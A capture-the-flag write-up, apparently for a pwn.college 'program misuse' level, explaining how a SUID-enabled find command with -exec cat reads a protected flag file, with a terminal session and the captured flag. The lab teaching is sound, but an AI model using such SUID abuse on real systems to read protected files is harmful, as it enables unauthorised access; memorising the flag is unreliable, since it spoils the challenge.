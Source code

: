 `find`

`find` is a versatile and powerful tool in linux. It is used to search for files and directories. It allows users to search files based on various criteria like name, size, type etc. We don't go deeper.

In this problem, we have to print the content of the `flag` file using `find` command. `find` actually finds the file. Now we want to execute some file reading program like `cat`, `more` etc.

I ran through the `man find` and search for `command`. After writing `man find` in the terminal, you write `/` and then you can search for any word you want. I wrote `/command`. After continuously pressing `n` means next and `N` means previous, I found `-exec command`. 

Gotcha! We are looking for this.

After reading, I found `See the EXAMPLES section for examples of the use of the -exec option`.

Then I went through `EXAMPLES` and found the proper command `$find flag -exec cat '{}' \;`

Here, `{}` is a placeholder that gets replaced by the path to the current file found by the `find`.
`\;(semicolon)` it is used to terminate the `-exec` command. The `\` before the `;` is necessary to ensure that the semicolon is treated as a literal character and not as a special character in the shell.

And then you found the flag :)

```bash
hacker@program-misuse-level-25:/$ ls
bin  boot  challenge  dev  etc  flag  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
hacker@program-misuse-level-25:/$ cd challenge/
hacker@program-misuse-level-25:/challenge$ ls
babysuid_level25
hacker@program-misuse-level-25:/challenge$ ./babysuid_level25 
Welcome to ./babysuid_level25!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/find.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level25) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/find!
hacker@program-misuse-level-25:/challenge$ cd /
hacker@program-misuse-level-25:/$ find flag
flag
hacker@program-misuse-level-25:/$ find flag -exec cat '{}' \;
pwn.college{EPnLVFqqM9udNFLsOEDAVpxMMYK.01N2EDL0AjNzQzW}
```

```bash
hacker@program-misuse-level-25:/$ find . -name 'flag' -exec cat /flag \;
pwn.college{EPnLVFqqM9udNFLsOEDAVpxMMYK.01N2EDL0AjNzQzW}
```

